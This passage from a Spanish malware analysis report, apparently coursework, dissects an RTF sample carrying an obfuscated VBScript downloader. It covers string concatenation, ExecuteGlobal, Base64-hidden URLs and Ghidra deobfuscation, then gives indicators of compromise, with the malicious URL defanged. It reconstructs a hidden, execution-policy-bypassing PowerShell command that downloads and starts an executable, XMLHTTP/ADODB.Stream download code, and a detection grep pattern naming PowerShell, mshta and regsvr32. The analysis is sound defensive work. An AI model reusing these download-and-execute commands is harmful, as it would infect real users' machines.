| Ejecutar comandos indirectamente | Permite lanzar acciones sin escribirlas de forma directa en el código.                                      |
| Reutilizar variables ofuscadas   | Combina variables aleatorias con fragmentos de código para generar instrucciones válidas.                   |

La presencia repetida de ExecuteGlobal es un indicador fuerte de ofuscación y ejecución dinámica. En scripts legítimos su uso suele ser poco frecuente; en cambio, en malware basado en VBScript se utiliza habitualmente para ocultar comportamiento y dificultar la detección mediante firmas simples.

En conclusión, el uso de ExecuteGlobal en M9T6 permite al script reconstruir y ejecutar código en tiempo de ejecución. Esta técnica es clave para ocultar la creación de objetos COM, la comunicación HTTP, la escritura de ficheros y la ejecución de PowerShell. Su presencia refuerza la conclusión de que el .scT embebido no es un script ordinario, sino un downloader VBScript ofuscado diseñado para evadir el análisis estático.


## **3.5 Codificación Base64**
Otra técnica de ofuscación identificada en el script embebido es el uso de Base64 para ocultar indicadores relevantes. En lugar de incluir directamente la URL de descarga y el nombre del payload, el script almacena estos valores codificados y los reconstruye durante la ejecución.

En el código se observan dos cadenas Base64 principales:
```
fsdfdsfs = "aHR0UDovL2VkZHlob2xkaW5nc2h1dHRsZS5jby56YS9pL3hwZXJ0ZWUuZXhl"
yulkytjtrhtjrkdsarjky = "eHBlcnRlZS5leGU="
```

Tras su decodificación, se obtienen los siguientes valores:
| Variable                | Base64                                                         | Valor decodificado                                | Interpretación                   |
| ----------------------- | -------------------------------------------------------------- | ------------------------------------------------- | -------------------------------- |
| `fsdfdsfs`              | `aHR0UDovL2VkZHlob2xkaW5nc2h1dHRsZS5jby56YS9pL3hwZXJ0ZWUuZXhl` | `hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe` | URL remota del payload           |
| `yulkytjtrhtjrkdsarjky` | `eHBlcnRlZS5leGU=`                                             | `xpertee[.]exe`                                   | Nombre del ejecutable descargado |

La codificación Base64 permite que estos indicadores no aparezcan directamente como texto plano en el script. Esto dificulta búsquedas simples de cadenas como http, .exe, dominios o nombres de payload, y retrasa la identificación de los IoCs durante el análisis estático.

El propio script contiene una función encargada de realizar la decodificación:
```
Function age64Dicode(ByVal sBase64EncodedText, ByVal trtsk484t378)
```

Esta función utiliza objetos COM para convertir el contenido Base64 en texto legible. En concreto, crea dinámicamente un elemento XML mediante Msxml2.DOMDocument, establece el tipo de dato como bin.base64 y obtiene el valor decodificado a través de NodeTypedValue. Posteriormente, usa ADODB.Stream para convertir los bytes resultantes a una cadena de texto.

Una vez decodificados los valores, el script utiliza la URL remota para descargar el payload y el nombre xpertee.exe para construir la ruta de destino en el sistema, normalmente bajo %APPDATA%:
```
%APPDATA%\xpertee.exe
```

En conclusión, el uso de Base64 en M9T6 tiene como objetivo ocultar los indicadores principales del downloader. Al decodificar las cadenas se recupera la URL hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe y el nombre del payload xpertee[.]exe, confirmando que el script embebido está diseñado para descargar una segunda etapa desde Internet y guardarla en el sistema víctima.


## **3.6 Texto basura y variables aleatorias**
Además de la concatenación de cadenas, el uso de ExecuteGlobal y la codificación Base64, el script embebido en la muestra M9T6 incorpora texto basura y nombres de variables aleatorios. Esta técnica tiene como objetivo aumentar el ruido dentro del código, dificultar su lectura manual y entorpecer la identificación rápida de las partes funcionales.

Durante el análisis del .scT se observaron fragmentos de texto aparentemente irrelevantes, comentarios sin utilidad operativa y cadenas que no participan directamente en la lógica de descarga o ejecución. Algunos ejemplos corresponden a frases de relleno o texto tipo placeholder:
```
In publishing and graphic design, lorem design is a placeholder text uncommon
The paintbrush was angry at the color the artist chose to use.
It is the largest and most popular general reference work on the World Wide Web
```

Este tipo de contenido no aporta funcionalidad al script. Su presencia parece orientada a introducir ruido, aumentar el tamaño del fichero y dificultar que el analista localice rápidamente las instrucciones relevantes.

También se identificaron variables con nombres aparentemente aleatorios o sin significado semántico claro:
```
fsdfdsfs
yulkytjtrhtjrkdsarjky
uqredvgyd
objhtxtpdownload
vei9fv78e6tyvr3jufn8gy4br3un3dn4gj43y8rg
bvbvbvbbvbvbvbvbvb
```

Algunas de estas variables sí tienen un papel funcional dentro del script, pero sus nombres están diseñados para ocultar su propósito. Por ejemplo:
| Variable                                   | Función reconstruida                                 |
| ------------------------------------------ | ---------------------------------------------------- |
| `fsdfdsfs`                                 | Contiene la URL codificada en Base64.                |
| `yulkytjtrhtjrkdsarjky`                    | Contiene el nombre del payload codificado en Base64. |
| `uqredvgyd`                                | Reconstruye el objeto `msxml2.xmlhttp.3.0`.          |
| `objhtxtpdownload`                         | Objeto utilizado para realizar la petición HTTP.     |
| `bvbvbvbbvbvbvbvbvb`                       | Almacena el estado HTTP de la respuesta.             |
| `vei9fv78e6tyvr3jufn8gy4br3un3dn4gj43y8rg` | Variable de relleno sin utilidad clara.              |


## **3.7 Desofuscación con Ghidra**
Como apoyo al análisis estático, se cargó la muestra RTF en Ghidra y se ejecutaron scripts personalizados de desofuscación orientados a la recuperación de cadenas. El objetivo de esta fase no era analizar código ensamblador, ya que la muestra no es un ejecutable PE, sino localizar bloques de datos, cadenas codificadas y fragmentos ocultos dentro de la estructura del RTF.

El uso de Ghidra permitió complementar los resultados obtenidos con rtfdump.py, rtfobj, strings y grep. En este caso, los scripts de desofuscación recorrieron el espacio de memoria cargado por Ghidra, identificaron cadenas ASCII directas y detectaron bloques codificados en hexadecimal que podían contener contenido relevante.

Esta técnica resulta útil cuando el documento contiene datos embebidos u ofuscados que no aparecen claramente en la vista de cadenas estándar. Aunque Ghidra no es una herramienta específica para RTF/OLE, puede aportar valor cuando se combina con scripts capaces de extraer y transformar datos codificados.

El plugin [ghidra_ghidra_universal_string_deobfuscator.py](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/3-M9T3/utiles/scripts_ghidra/ghidra_universal_string_deobfuscator.py) ha sido útil porque confirma que el RTF contiene bloques hexadecimales ofuscados que, al decodificarse, revelan el script embebido. El análisis recorrió el rango completo cargado en memoria como ram, desde 00000000 hasta aproximadamente 00040552, y obtuvo estos resultados finales:

Este script devuelve:  


```
Hex runs decoded: 5
Strings extracted: 390
Interesting strings: 182
CSV written: /tmp/ghidra_rtf_hex_deobfuscation_.../decoded_strings.csv
```
Esto indica que el plugin localizó **5 regiones codificadas en hexadecimal dentro del RTF** y extrajo 390 cadenas, de las cuales **182 fueron consideradas relevantes** para el análisis.

**El desofuscador recuperó rutas y nombres asociados al objeto .SCT, por ejemplo:**
```
C:\jsdsDggf\AbctfhgXGdghgh
C:\kakepatH\Abctfhghgdghgh
```

**También aparecen marcas claras de un Windows Script Component:**
```
<scriptlet
<script language = "vbscript">
</script>
</scriptlet>
```

<mark>Esto confirma que el objeto embebido no es un fichero inocuo, sino un scriptlet VBScript ofuscado.</mark>


**Indicadores de ejecución dinámica:**
```
ExecuteGlobal
CreateObject
MacroVBSScript
WScript.Shell
Scripting.FileSystemObject
```
Estas cadenas son importantes porque muestran que el script <mark>reconstruye instrucciones en tiempo de ejecución y luego las ejecuta mediante ExecuteGlobal. Además, WScript.Shell permite lanzar comandos o procesos en Windows.</mark> 

**Indicadores de conexión y descarga:**
```
msxml2.xmlhttp.3.0
objhtxtpdownload.open
objhtxtpdownload.send
objhtxtpdownload.status
responsebody
```
Esto confirma la rama basada en MSXML2.XMLHTTP.3.0, donde el script <mark>realiza una petición HTTP, comprueba el estado de la respuesta y, si obtiene un estado válido, utiliza el contenido descargado.</mark>

**El script prepara una ruta local, comprueba si el fichero existe y puede guardar el contenido descargado en disco:**
```
ADODB.Stream
savetofile
strsaveto
fileexists(strsaveto)
```


# **4. Análisis del script embebido**
Tras la extracción de los objetos OLE contenidos en el RTF, el análisis se centra en el fichero .scT recuperado desde el objeto Package. Este artefacto representa el componente activo principal de la muestra, ya que contiene el código encargado de reconstruir la lógica de descarga y ejecución del payload.

El script no aparece como código limpio, sino como un scriptlet VBScript ofuscado. Presenta cadenas fragmentadas, variables con nombres aleatorios, texto basura, datos codificados en Base64 y uso intensivo de ExecuteGlobal para construir y ejecutar instrucciones en tiempo de ejecución.

El análisis del script permite identificar las siguientes capacidades:
| Capacidad               | Evidencia                                                               |
| ----------------------- | ----------------------------------------------------------------------- |
| Ejecución dinámica      | Uso repetido de `ExecuteGlobal`                                         |
| Creación de objetos COM | Uso de `CreateObject`                                                   |
| Decodificación de datos | Función de decodificación Base64                                        |
| Comunicación HTTP       | Uso de `MSXML2.XMLHTTP.3.0`                                             |
| Escritura en disco      | Uso de `ADODB.Stream` y `Scripting.FileSystemObject`                    |
| Ejecución de comandos   | Uso de `WScript.Shell`                                                  |
| Descarga de payload     | URL remota decodificada en el script                                    |
| Ejecución alternativa   | Construcción de comando PowerShell con `DownloadFile` y `Start-Process` |

En conclusión, El fichero .scT embebido no actúa como un simple recurso auxiliar del documento, sino como el componente encargado de activar la cadena de infección. Su análisis confirma que la muestra M9T6 contiene un downloader VBScript ofuscado orientado a descargar y ejecutar una segunda etapa.

## **4.1 Identificación del scriptlet VBScript**
El fichero .scT extraído desde el objeto Package fue analizado para determinar su contenido real. Aunque herramientas como file lo clasifican únicamente como data, el análisis de cadenas y la revisión manual permiten identificarlo funcionalmente como un Windows Script Component que contiene código VBScript.

En el contenido recuperado se observan etiquetas compatibles con un scriptlet:
```
[scriptlet
[script language = "Vbscript">
...
[/script]
[/scriptlet]
```
Estas marcas indican que el fichero está estructurado como un componente de script. Además, en su interior aparecen instrucciones propias de VBScript, como definición de funciones, variables, llamadas a CreateObject y uso de ExecuteGlobal.

La presencia de ExecuteGlobal es especialmente relevante, ya que permite ejecutar cadenas construidas dinámicamente como código VBScript. Esto confirma que el script no está pensado para ser leído de forma lineal, sino que reconstruye parte de su lógica durante la ejecución.

También se identifican objetos COM típicos de scripts maliciosos en Windows:
```
WScript.Shell
Scripting.FileSystemObject
MSXML2.XMLHTTP.3.0
ADODB.Stream
Msxml2.DOMDocument
```

Estos componentes permiten ejecutar comandos, manipular ficheros, realizar conexiones HTTP, escribir datos en disco y decodificar contenido Base64. Por tanto, el .scT debe interpretarse como un scriptlet downloader.

En conclusión, el artefacto .scT extraído del RTF corresponde a un scriptlet VBScript ofuscado. Su estructura, sus etiquetas de script, el uso de objetos COM y la presencia de ejecución dinámica mediante ExecuteGlobal confirman que es el componente activo de la muestra y el encargado de preparar la descarga y ejecución del payload remoto.

## **4.2 Objetos COM utilizados**
El scriptlet VBScript embebido utiliza varios objetos COM de Windows para implementar su lógica de decodificación, conexión, escritura en disco y ejecución. Estos objetos se crean de forma dinámica mediante CreateObject, en muchos casos reconstruido mediante concatenación de cadenas y ejecutado posteriormente con ExecuteGlobal.

La presencia de estos objetos es relevante porque permite al script interactuar con componentes del sistema sin depender de binarios propios. En otras palabras, el malware abusa de funcionalidades legítimas de Windows para ejecutar su cadena de descarga.

| Objeto COM                   | Uso dentro del script                    | Relevancia                                                                      |
| ---------------------------- | ---------------------------------------- | ------------------------------------------------------------------------------- |
| `Msxml2.DOMDocument`         | Decodificación de cadenas Base64         | Permite transformar la URL y el nombre del payload desde Base64 a texto claro.  |
| `MSXML2.XMLHTTP.3.0`         | Comunicación HTTP                        | Se utiliza para realizar una petición `GET` contra la URL remota del payload.   |
| `ADODB.Stream`               | Conversión de bytes y escritura de datos | Permite tratar datos binarios y guardar el contenido descargado en disco.       |
| `Scripting.FileSystemObject` | Manipulación de ficheros                 | Permite comprobar si existe el fichero de destino y operar sobre rutas locales. |
| `WScript.Shell`              | Ejecución de comandos                    | Se usa para lanzar comandos reconstruidos dinámicamente, incluyendo PowerShell. |

En concreto, se observa la creación de `Scripting.FileSystemObject` y `Wscript.Shell`, además de una comprobación de existencia del fichero de destino mediante `fileexists(strsaveto)`.

En conclusión, el script embebido utiliza objetos COM legítimos de Windows para implementar una cadena de descarga y ejecución sin incluir herramientas externas. La combinación de MSXML2.XMLHTTP.3.0, ADODB.Stream, Scripting.FileSystemObject y WScript.Shell confirma que el .scT actúa como downloader, capaz de contactar con una URL remota, guardar el payload en disco y ejecutarlo mediante comandos del sistema.

## **4.3 Decodificación de URL y payload**
Durante el análisis del scriptlet VBScript se identificaron dos cadenas codificadas en Base64. Estas cadenas no aparecen en claro en el script original, lo que dificulta la detección directa de indicadores como dominios, URLs o nombres de ejecutables.

Las variables relevantes son:
```
fsdfdsfs = "aHR0UDovL2VkZHlob2xkaW5nc2h1dHRsZS5jby56YS9pL3hwZXJ0ZWUuZXhl"
yulkytjtrhtjrkdsarjky = "eHBlcnRlZS5leGU="
```

El propio script contiene una función de decodificación, denominada age64Dicode, que utiliza objetos COM para convertir el contenido Base64 en texto legible. Para ello crea un elemento XML mediante Msxml2.DOMDocument, establece el tipo de dato como bin.base64 y recupera el contenido decodificado. Posteriormente, el resultado se emplea para construir la URL remota y el nombre del fichero de salida.

La decodificación de las cadenas produce los siguientes valores:
| Variable                | Valor decodificado                                | Descripción                                             |
| ----------------------- | ------------------------------------------------- | ------------------------------------------------------- |
| `fsdfdsfs`              | `hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe` | URL remota desde la que se intenta descargar el payload |
| `yulkytjtrhtjrkdsarjky` | `xpertee[.]exe`                                   | Nombre del ejecutable de segunda etapa                  |
A partir de estos valores, el script construye la ruta local de destino en el perfil del usuario:
```
%APPDATA%\xpertee.exe
```

Esta ruta se genera combinando la variable de entorno %APPDATA% con el nombre del payload decodificado. El resultado esperado en un sistema Windows sería una ruta similar a:
```
C:\Users\<usuario>\AppData\Roaming\xpertee.exe
```

La URL se encuentra sanitizada en el informe como hxxp y [.] para evitar que sea tratada como enlace activo. En el script original, la dirección corresponde a una URL HTTP real utilizada como punto de descarga del ejecutable.

En conclusión, la decodificación Base64 permite recuperar los indicadores principales de la muestra: la URL de descarga hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe y el payload xpertee[.]exe. Estos valores confirman que el script embebido actúa como downloader y está diseñado para descargar una segunda etapa en %APPDATA% y posteriormente ejecutarla.


## **4.4 Ramas de conexión y descarga**
El análisis del script embebido permite identificar dos mecanismos de descarga orientados al mismo objetivo: obtener el payload remoto xpertee.exe desde el dominio eddyholdingshuttle.co.za y guardarlo en el sistema bajo la ruta %APPDATA%.

Estas dos ramas no parecen formar una estructura excluyente de tipo if/else, sino una lógica redundante. Es decir, el script dispone de más de una vía para intentar descargar la segunda etapa, aumentando así la probabilidad de éxito si uno de los métodos falla o es bloqueado.

### **4.4.1 Rama MSXML2.XMLHTTP**

La primera rama usa MSXML2.XMLHTTP.3.0. El script construye dinámicamente el objeto HTTP:
```
uqredvgyd = "msxml2.xmlhttp.3.0"
set objhtxtpdownload = createobject(uqredvgyd)
objhtxtpdownload.open "get", strlink, false
objhtxtpdownload.send
```
En el código se observa la construcción de msxml2.xmlhttp.3.0, la creación de objhtxtpdownload, la apertura de una petición GET contra strlink y el envío de la petición.

Después, el script consulta el estado HTTP:
```
bvbvbvbbvbvbvbvbvb = objhtxtpdownload.status
```
La condición importante aparece aquí:
```
if bvbvbvbbvbvbvbvbvb = 200 then
```
Es decir, esta rama depende de que el servidor responda HTTP 200 OK.

Si la respuesta es 200, el script entra en la rama de escritura del payload usando ADODB.Stream:
```
set fffffffffgggggg = createobject("ADODB.Stream")
.type = 1
.open
.write objhtxtpdownload.responseBody
.savetofile strsaveto
```
En el script esto aparece ofuscado, pero se reconstruye por fragmentos con cadenas como adodb.stream, .type = 1, .open, .write objhttpdownload.responsebody y .savetofile strsaveto.

Interpretación:
Esta rama intenta descargar el binario mediante XMLHTTP y, sólo si la descarga devuelve HTTP 200, guarda el cuerpo de la respuesta en %APPDATA%\xpertee.exe.

### **4.4.2 Rama PowerShell/WebClient**

La segunda rama construye una orden PowerShell independiente:
```
PowerShell -NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo -command "(New-Object System.Net.WebClient).DownloadFile('<URL>','%appdata%\xpertee.exe');Start-Process '%appdata%\xpertee.exe'"
```

En el script aparece como una cadena fragmentada:
```
varf = "Pow" + "erS" + alls + " -NoP -sta -NonI -W Hid" + "den -Exe" + ...
```
y después se ejecuta mediante:
```
Set objShell = CreateObject("WScript.Shell")
objShell.run varf, 0, false
```

Esto significa que la rama PowerShell:
```
decodifica la URL;
decodifica el nombre xpertee.exe;
descarga el payload con System.Net.WebClient.DownloadFile;
lo guarda en %APPDATA%\xpertee.exe;
lo ejecuta con Start-Process;
lo lanza oculto con WScript.Shell.Run, parámetro 0.
```
El código de construcción y ejecución de PowerShell aparece antes del if status = 200, por lo que no parece depender directamente del código HTTP 200 de la rama XMLHTTP.

### **4.4.3 Condiciones de ejecución de cada rama**
El script contiene dos mecanismos de descarga. El primero emplea MSXML2.XMLHTTP.3.0 y ADODB.Stream, condicionado a que la respuesta HTTP sea 200 OK. El segundo construye y ejecuta una orden PowerShell con System.Net.WebClient.DownloadFile y Start-Process, lanzada mediante WScript.Shell.Run con ventana oculta. Esta segunda vía no aparece condicionada explícitamente al status = 200, por lo que puede ejecutarse independientemente de la rama ADODB.Stream.


Flujo:
``` 
RTF malicioso
  → objeto OLE Package
  → fichero .SCT
  → VBScript ofuscado
  → decodifica URL y nombre del payload
  → strlink = hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe
  → strsaveto = %APPDATA%\xpertee.exe
  ├─ Rama 1:
  │    MSXML2.XMLHTTP.3.0
  │    GET strlink
  │    if status = 200:
  │        ADODB.Stream
  │        write responseBody
  │        savetofile strsaveto
  └─ Rama 2:
       PowerShell -NoP -NonI -W Hidden -ExecutionPolicy bypass
       WebClient.DownloadFile(strlink, strsaveto)
       Start-Process strsaveto
       ejecución mediante WScript.Shell.Run
```


# **5. Correlación de cadenas**
Para correlacionar los indicadores encontrados con el fichero del que proceden, se accedió al directorio donde fueron extraídos los objetos mediante `rtfobj` y se aplicó una búsqueda de cadenas sospechosas sobre cada archivo. A diferencia de una búsqueda global con `strings -a *`, este procedimiento permite **identificar qué artefacto concreto contiene cada indicador**, facilitando la atribución de comportamiento al objeto correspondiente.
```
cd ~/Escritorio/M9T6_rtfobj_extract

PATTERN='http|https|cmd|powershell|wscript|cscript|regsvr32|scrobj|mshta|rundll32|\.exe|\.dll|\.sct|scriptlet|ActiveX|CreateObject|Shell|ExecuteGlobal|WScript\.Shell'

{
  echo "# Indicadores por fichero - M9T6"
  echo
  echo '```text'
  for f in *; do
    [ -f "$f" ] || continue
    strings -a -n 4 "$f" \
      | grep -aniE --color=never "$PATTERN" \
      | sed "s|^|$f:|"
  done
  echo '```'
} > ../M9T6_indicadores_por_fichero.md
```

Obtenemos:
```
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000121CC.bin:2:.SCT
salida.vbs:4:    ExecuteGlobal(obj)
salida.vbs:19:    ExecuteGlobal("Set alxmd = " + cvbnm + "(""Msxml2.DOMDocument"").CreateElement(""aux"")")
salida.vbs:20:    ExecuteGlobal("alxmd.Data" + "Type = itype")
salida.vbs:38:        ExecuteGlobal("Set baax = " + piiing + "(aaax)")
salida.vbs:50:            ExecuteGlobal("baax.Close")
salida.vbs:56:dim shellobj  '292821
salida.vbs:70:ExecuteGlobal(pisj  + vbCrLf + "se" + "t shellobj = Create" + "Object(ywrjjjjjjjjjjjjwty)")
salida.vbs:75:ExecuteGlobal("call age64Dicode(""QWxsRmF0YSA9IHNoZWxsb2JqLmV4cGFuZEVudml" + "yb25tZW50U3RyaW5ncygiICUgQVBQRCIgKyAiQVRBICVcIik="",False)")
salida.vbs:86:uqredvgyd = uqredvgyd + ".xml" + "http.3.0"
salida.vbs:202:    ExecuteGlobal("Set objFSO   = Create" + "Object( ""Scripting.FileSystemObject"" ) ")
salida.vbs:203:    ExecuteGlobal("Set wshShell = Create" + "Object( ""Wscript.Shell"" ) ")
salida.vbs:204:    offififii = ExecuteGlobal("objfsodownload." + "file" + "exists(strsaveto)")    
salida.vbs:213:ExecuteGlobal("set objhtxtpdownload = create" + "object(uqredvgyd)")
salida.vbs:217:ExecuteGlobal("anny" + " = f" + "alse")
salida.vbs:221:ExecuteGlobal(yoha)
salida.vbs:222:ExecuteGlobal("dim sfo")
salida.vbs:228:ExecuteGlobal("set objfsodownload = create" + "object(sfo)") '292821
salida.vbs:231:ExecuteGlobal("bicodo = bicodo + oofofs + mmgcb + osdv")
salida.vbs:233:onononono = ExecuteGlobal("objfsodownload." + "file" + "exists(strsaveto)")
salida.vbs:234:ExecuteGlobal("bvbvbvbbvbvbvbvbvb = objhtxtpdownload.status")
salida.vbs:236:ExecuteGlobal("varrya = age64Dicode(fsdfdsfs, F" + "alse)")
salida.vbs:237:ExecuteGlobal("varryb = age64Dicode(yulkytjtrhtjrkdsarjky, F" + "alse)")
salida.vbs:242:	ExecuteGlobal("Set objShell = Create" + "Object(""WScript.Shell"")")
salida.vbs:244:    ExecuteGlobal(tohan)
salida.vbs:251:    ExecuteGlobal("set  fffffffffgggggg = create" + "object(vard1)")
salida.vbs:263:ExecuteGlobal("fghfgh = """"")
salida.vbs:268:DIM ARRHELPWIN, ARRHELPWINCHR1, ARRINTCMD, ARRTEMP, DICHELPLONG, DICHELPSHORT, DICSYSTEMFILES
salida.vbs:273:DIM STRALPHABET, STRARG, STRCLASS, STRCMDINFO, STRCOMMAND, STRCOMMANDLINE, STRCOMSPEC, STRCSDVER, STRFILE, STRFILEVER
salida.vbs:277:CONST INTERNAL_CMD_EXE     = "ASSOC COLOR ENDLOCAL FTYPE MKLINK POPD PUSHD SETLOCAL START TITLE"
salida.vbs:283:    ExecuteGlobal("Set basebase = Create" + "Object(""Msxml2.DOMDocument"").CreateElement(""aux"")")
salida.vbs:284:    ExecuteGlobal("ExecuteGlobal(""ba"" + ""seb"" + ""ase."" + ""Data"" + ""Type = """"bi"""" + """"n."""" + """"ba"" + ""se"""" + """"64"""""")")
salida.vbs:291:        ExecuteGlobal("Base" + varpart + " = .Text")
salida.vbs:309:DIM ARRHELPWIN1, ARRHELPWINC1HR1, ARRI1NTCMD, ARRT1EMP, DICH1ELPLONG, DICHELPS1HORT, DICSYST1EMFILES
salida.vbs:320:CONST INTERNAL_CMD_1EXE     = "ASSOC COLOR ENDLOCAL FTYPE MKLINK POPD PUSHD SETLOCAL START TITLE"
salida.vbs:325:    ExecuteGlobal("objF" + "ile." + varwr + " st" + "ryn:")
salida.vbs:328:    ExecuteGlobal(varzup + "Cl" + zupvar)
salida.vbs:338:ExecuteGlobal("gjfhf = prock")
salida.vbs:339:ExecuteGlobal("gjfhf = prock")
salida.vbs:340:ExecuteGlobal("stryn = gjfhf + ""da"" + secvar + ""%"" + ""\"" + varryb")
``` 

El resultado muestra que el objeto `9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000121CC.bin` contiene una referencia a `.SCT`, lo que encaja con el objeto `OLE2Link` identificado previamente. Este hallazgo refuerza la relación entre el enlace OLE embebido y el scriptlet extraído de la muestra.

La mayoría de indicadores relevantes aparecen en `salida.vbs`, que corresponde al script desofuscado del objeto .SCT. En este fichero se observan múltiples usos de `ExecuteGlobal`, lo que indica que el código construye instrucciones de forma dinámica y las ejecuta en tiempo de ejecución. Esta técnica dificulta el análisis estático directo, ya que muchas llamadas no aparecen escritas de forma literal, sino reconstruidas mediante concatenación de cadenas.

Entre las cadenas más relevantes se identifican llamadas a `CreateObject`, `WScript.Shell`, `Scripting.FileSystemObject`, `Msxml2.DOMDocument` y referencias a `msxml2.xmlhttp.3.0`. Estos objetos COM permiten al script realizar varias acciones maliciosas: decodificar cadenas Base64, crear conexiones HTTP, comprobar la existencia de ficheros, escribir contenido en disco y lanzar comandos o procesos en el sistema.

También se observan cadenas relacionadas con ejecución de comandos, como `STRCOMMAND`, `STRCOMMANDLINE`, `STRCOMSPEC` e `INTERNAL_CMD_EXE`. La presencia de estas variables y constantes apunta a una lógica preparada para construir o manipular comandos del sistema. Además, aparecen comandos internos de `cmd.exe`, como `ASSOC`, `FTYPE`, `MKLINK`, `START` y `TITLE`, lo que refuerza la hipótesis de capacidad de ejecución.

La correlación también confirma la existencia de dos ramas funcionales dentro del script. Por un lado, se identifican cadenas asociadas a la rama de descarga mediante `MSXML2.XMLHTTP.3.0`, como `objhtxtpdownload`, `open`, `send`, `status` y comprobaciones de tipo `fileexists(strsaveto)`. Por otro lado, aparecen referencias a `WScript.Shell`, que se usa para ejecutar código reconstruido dinámicamente mediante `ExecuteGlobal`.

En conjunto, la correlación de cadenas permite atribuir los indicadores principales al script `salida.vbs`, confirmando que el objeto embebido no contiene solo datos pasivos, sino código VBScript ofuscado con capacidad para descargar, escribir y ejecutar un payload. <mark>El fichero `object_000121CC.bin` aporta la referencia al componente `.SCT`, mientras que `salida.vbs` concentra la lógica maliciosa principal.</mark>


| Fichero / artefacto   | Indicador encontrado                              | Tipo de hallazgo                  | Interpretación                                                                                                                       |
| --------------------- | ------------------------------------------------- | --------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| `object_000121CC.bin` | `.SCT`                                            | Referencia a scriptlet            | El objeto `OLE2Link` contiene una referencia a un componente `.SCT`, coherente con el scriptlet embebido identificado en la muestra. |
| `salida.vbs`          | `ExecuteGlobal`                                   | Ejecución dinámica                | El script construye código en tiempo de ejecución y lo ejecuta dinámicamente, dificultando el análisis estático directo.             |
| `salida.vbs`          | `CreateObject`                                    | Creación dinámica de objetos COM  | El script instancia objetos del sistema Windows necesarios para red, ejecución y manipulación de ficheros.                           |
| `salida.vbs`          | `Msxml2.DOMDocument`                              | Decodificación / manipulación XML | Se usa para manejar datos codificados, especialmente cadenas Base64.                                                                 |
| `salida.vbs`          | `age64Dicode(...)`                                | Decodificación Base64             | Función usada para reconstruir la URL remota y el nombre del payload.                                                                |
| `salida.vbs`          | `msxml2.xmlhttp.3.0`                              | Conexión HTTP                     | Indica una rama de descarga mediante `MSXML2.XMLHTTP.3.0`.                                                                           |
| `salida.vbs`          | `objhtxtpdownload.open` / `send`                  | Petición HTTP                     | El script prepara y lanza una petición `GET` contra la URL remota.                                                                   |
| `salida.vbs`          | `objhtxtpdownload.status`                         | Control de respuesta HTTP         | El script comprueba el código de estado de la conexión; si recibe `200`, continúa con la escritura del payload.                      |
| `salida.vbs`          | `Scripting.FileSystemObject`                      | Manipulación de ficheros          | Permite comprobar existencia, crear o eliminar ficheros en el sistema.                                                               |
| `salida.vbs`          | `fileexists(strsaveto)`                           | Comprobación de fichero           | Verifica si el payload ya existe en la ruta de destino.                                                                              |
| `salida.vbs`          | `ADODB.Stream` / `savetofile`                     | Escritura en disco                | Se usa para guardar el contenido descargado como fichero ejecutable.                                                                 |
| `salida.vbs`          | `WScript.Shell`                                   | Ejecución de comandos             | Permite lanzar procesos o comandos desde VBScript.                                                                                   |
| `salida.vbs`          | `objShell.run`                                    | Ejecución oculta                  | Ejecuta el comando construido dinámicamente, previsiblemente sin mostrar ventana.                                                    |
| `salida.vbs`          | `STRCOMMAND`, `STRCOMMANDLINE`, `STRCOMSPEC`      | Preparación de comandos           | Variables asociadas a construcción o manipulación de comandos del sistema.                                                           |
| `salida.vbs`          | `INTERNAL_CMD_EXE`                                | Referencia a `cmd.exe`            | Incluye comandos internos como `ASSOC`, `FTYPE`, `MKLINK`, `START` y `TITLE`.                                                        |
| `salida.vbs`          | `PowerShell`, `DownloadFile`, `Start-Process`     | Descarga y ejecución alternativa  | Rama adicional que descarga el payload con PowerShell y lo ejecuta mediante `Start-Process`.                                         |
| `salida.vbs`          | `%APPDATA%\xpertee.exe`                           | Ruta de destino                   | El payload se guarda en el perfil del usuario, dentro de `%APPDATA%`.                                                                |
| `salida.vbs`          | `hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe` | URL de descarga                   | Indicador de red asociado al ejecutable remoto.                                                                                      |
| `salida.vbs`          | `xpertee.exe`                                     | Payload remoto                    | Nombre del ejecutable descargado y ejecutado por el script.                                                                          |


# **6. Indicadores de compromiso**
En este apartado se resumen los principales IoCs obtenidos durante el análisis estático y dinámico de la muestra M9T6. Se incluyen hashes, rutas, dominios, procesos, comandos y objetos COM relevantes. El objetivo es concentrar los indicadores útiles para identificación, correlación y detección sin repetir el análisis técnico ya desarrollado en apartados anteriores.

## **6.1 Hashes**
| Elemento          | Algoritmo | Valor                                                              |
| ----------------- | --------- | ------------------------------------------------------------------ |
| Muestra RTF       | MD5       | `3c8de25fcd3746a65314c0747f981aa7`                                 |
| Muestra RTF       | SHA-1     | `c2c35b8e78b2afc44f9875126f79da2a5646717b`                         |
| Muestra RTF       | SHA-256   | `9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e` |
| Objeto `.scT`     | MD5       | `331c6ff42836efc5c6b3a6371f4c57da`                                 |
| Objeto `.scT`     | SHA-256   | `2074f16be50c73280c3a29ed81595884f703c5eea269f771d9cdc39fd9daaee1` |
| Objeto `OLE2Link` | MD5       | `b95d048b6b05a9cb09d29d1b3a762da4`                                 |


## **6.2 Ficheros y rutas**
| Tipo                      | Ruta / nombre                                                          |
| ------------------------- | ---------------------------------------------------------------------- |
| Muestra original          | `9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf` |
| Scriptlet embebido        | `AbctfhgXgdghgh\x9e.scT`                                               |
| `.scT` temporal observado | `%TEMP%\Abctfhghgdghghž.scT`                                           |
| Payload esperado          | `%APPDATA%\xpertee.exe`                                                |
| Payload en INetCache      | `%LOCALAPPDATA%\Microsoft\Windows\INetCache\IE\...\xpertee[1].exe`     |
| Fichero `.cmd` observado  | `C:\ProgramData\hrjytrj.cmd`                                           |


## **6.3 Dominios y URLs**ç
| Tipo             | Indicador                                         |
| ---------------- | ------------------------------------------------- |
| Dominio          | `eddyholdingshuttle.co.za`                        |
